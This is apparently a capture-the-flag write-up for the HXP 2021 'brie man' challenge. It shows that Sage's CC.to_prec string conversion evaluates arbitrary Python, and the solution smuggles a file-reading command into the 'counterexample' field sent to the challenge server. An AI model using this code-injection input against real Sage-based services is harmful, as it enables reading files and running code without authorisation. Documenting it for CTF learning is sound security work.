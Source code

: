 ```yaml
---
title: "HXP 2021 - brie man (Misc)"
header:
  overlay_image: /assets/images/hxp-2021/header.png
  overlay_filter: 0.5
  caption: "Photo credit: HXP CTF Organisers"

tags:
  - hxp
  - writeup
  - misc
  - sage
  - rce
---
```


Summary: Sagemath contains sinks that allow for the arbitrary execution of Python code when
converting from user input to math objects.

## Challenge Prompt

```
brie man
by yyyyyyy
misc
Difficulty estimate: easy - easy

Points: round(1000 · min(1, 10 / (9 + [39 solves]))) = 208 points

Description:
Do you ever dream of solving a famous open question?

(Now that we have your attention: Sorry, this challenge has nothing to do with Brie. 🧀)

Download:
brie man-b6db7372d539e8b7.tar.xz (13.5 KiB)

Connection (mirrors):
nc 65.108.178.230 7904
```

Attachment: [challenge file]({{ site.url }}{{ site.baseurl }}/assets/files/hxp-2021/brie man-b6db7372d539e8b7.tar.xz)

## Solution

The following sage file is given. It appears to want us to find a counterexample to the Riemann
Hypothesis, one of the math problems included in the [Millenium
Prizes](https://www.claymath.org/millennium-problems/riemann-hypothesis). It can surmised we're not
supposed to actually find a counterexample.

```python
#!/usr/bin/env sage
import re

if sys.version_info.major < 3:
    print('nope nope nope nope | https://hxp.io/blog/72')
    exit(-2)

rx = re.compile(r'Dear Bernhard: Your conjecture is false, for ([^ ]{,40}) is a counterexample\.')

s = CC.to_prec(160)(rx.match(input()).groups()[0])

r = round(s.real())
assert not all((s==r, r<0, r%2==0))     # boring

assert not s.real() == 1/2              # boring

assert zeta(s) == 0                     # uhm ok
print(open('flag.txt').read().strip())
```

Furthermore, the [link](https://hxp.io/blog/72) printed when Python 2 is detected also gives us a
clue that we may need to look for an arbitrary Python code evaluation sink.

Experimenting with `CC.to_prec(160)` shows that it converts strings to complex fields.

```console
sage: CC.to_prec(160)("1.0")
1.0000000000000000000000000000000000000000000000
```

It appears to perform arithmetic and attempt to resolve Python symbols.

```console
sage: CC.to_prec(160)("1 + 1")
2.0000000000000000000000000000000000000000000000
sage: CC.to_prec(160)("A")
...
/var/tmp/sage-9.4-current/local/lib/python3.9/site-packages/sage/all.py in <module>

NameError: name 'A' is not defined
```

Attempting some Python code results in it actually executing.

```console
sage: CC.to_prec(160)("print('hello world')")
helloworld
NaN + NaN*I
sage:
```

Thus, the flag read code can be simply provided to obtain the flag:

```console
$ nc 65.108.178.230 7904
Dear Bernhard: Your conjecture is false, for print(open('flag.txt').read().strip()) is a counterexample.
hxp{0NE_M1LL10N_D0LLAR5}
```

**Flag:** `hxp{0NE_M1LL10N_D0LLAR5}`
